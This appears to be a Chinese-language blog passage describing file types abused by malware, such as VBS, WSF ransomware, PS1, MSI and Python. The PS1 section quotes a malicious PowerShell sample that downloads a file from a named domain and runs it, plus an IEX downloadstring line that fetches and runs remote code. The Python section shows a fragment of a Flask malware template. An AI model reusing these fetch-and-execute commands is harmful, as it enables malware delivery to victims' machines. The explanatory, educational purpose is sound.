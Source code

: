 > 评论里有一段很有趣的对话：
>
> > wat does it do
>
> It makes you a sandwich

### VBS

Virtual Basic script，资料里说Windows系统会使用它，IE会使用它，还有一个IIS（Internet Information Services，常用来做FTP服务器）也会使用它。VBS可以用了制成一种能够实现快速传播的蠕虫病毒，另外，VBS的编写还十分简单。典型的VBS病毒有[新欢乐时光](https://baike.baidu.com/item/%E6%96%B0%E6%AC%A2%E4%B9%90%E6%97%B6%E5%85%89?fromModule=lemma_inlink)。

### WSH

包含特定脚本的属性和参数的文本文档，比如.VB或.VBS文件。结合上述对vbs文档的描述我们可以知道，wsh文件可能会帮助vbs文件发挥作用，换句话说，当你禁用了wsh的时候有些软件可能用不了，但同时有些恶意程序也不能运行。

### WSF

Windows脚本文件，也是一类可以执行的文件，[这篇文章](https://medium.com/@networksecurity/ransomware-delivered-using-wsf-windows-script-file-551a6589da47)分享了一类以wsf为载体的勒索病毒，如下图，这个病毒的文件名也很有意思，是”MESSAGE_123123123123.doc(一堆空格).wsf“。文章中还提到了很多邮箱，比如outlook和exchange都不会拦截为wsf文件，从而让其有机可乘。

<img src="https://my-picbed.oss-cn-hangzhou.aliyuncs.com/202209020935572.jpeg" alt="WSF文件内容" style="zoom:50%;" />



### PS1

刚开始把这个文件的后缀名认成了PSI，结果一看是PS1文件。这类文件是Windows上power shell的脚本文件，包含了一系列可以执行的脚本。看了一下病毒库，ps1文件也是重灾区之一。比如下面这一段脚本，所执行的就是从某个IP下载恶意程序：

```powershell
curl https://fastaccesone.com/load/ntc_claim.pdf -o C:\users\public\ntc_claim.pdf
C:\users\public\ntc_claim.pdf
IEX ((new-object net.webclient).downloadstring('某美国ip'))
```

## 其他文件

### MSI

msi文件包含了特定软件安装器所需要的文件、安装路径等信息，许多第三方软件也会用到该文件格式。比如Apple的bonjour。

> 说实话我之前一直觉得这个文件和微星有些联系

Malwarebazaar上有不少msi后缀的病毒样本，[这篇文章](https://www.trendmicro.com/en_us/research/19/d/analysis-abuse-of-custom-actions-in-windows-installer-msi-to-run-malicious-javascript-vbscript-and-powershell-scripts.html)解释了其中一种病毒样本，该样本中隐藏了一部分vbs脚本，而且这些脚本竟然是被截断的，另一部分说不定被藏在别的什么地方。攻击者为了绕过安全检查简直是绞尽脑汁……

### PY

终于遇到一个我熟悉的后缀名了，py是python文件的后缀名，然而我并不知道py文件也能做病毒。于是我去下载了一个病毒样本（没有恶意程序链接，放心食用）：

```python
import requests, io
from flask import Flask, request, send_file
app = Flask(
__name__,
  template_folder='templates',
  static_folder='static'
)
@app.route('/', methods=['GET'])
def main():
  Image = 'YourImageLink' # Replace this with your image link
  Malicious = 'MaliciousFIleDownloadLink'# Replace this with your download link
```
